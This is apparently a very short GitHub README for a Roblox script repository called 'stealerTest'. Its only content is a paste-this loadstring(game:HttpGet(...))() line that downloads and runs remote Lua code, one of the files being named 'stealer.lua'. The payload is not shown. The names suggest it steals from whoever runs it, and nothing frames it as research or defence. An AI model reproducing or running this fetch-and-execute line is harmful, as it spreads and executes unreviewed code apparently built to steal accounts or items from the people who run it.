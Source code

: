 # stealerTest

script: loadstring(game:HttpGet("https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/script.lua", true))()  ( loadstring(game:HttpGet("https://raw.githubusercontent.com/zedikik/stealerTest/refs/heads/main/stealer.lua", true))() )
